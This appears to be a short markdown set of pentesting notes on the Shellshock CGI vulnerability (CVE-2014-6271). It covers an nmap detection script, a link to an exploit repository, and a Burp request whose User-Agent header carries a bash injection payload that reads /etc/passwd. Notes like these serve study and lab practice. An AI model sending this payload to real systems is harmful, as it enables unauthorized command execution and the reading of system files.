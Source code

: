# ShellShock Vuln (CVE-2014-6271):

- cgi vulnerability
- view page-source, get uri of cgi file
- nmap script to check if server is vuln to shellshock:
	- http-shellshock --script-args “http-shellshock.uri=/gettime.cgi”
- https://github.com/opsxcq/exploit-CVE-2014-6271 : steps to exploit vuln
![http-exploit](./images/http-01.png)
 ￼
- send a burp request to cgi file and modify user-agent as above:
	- () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'
	![http-exploit-burp](./images/http-02.png)
	  ￼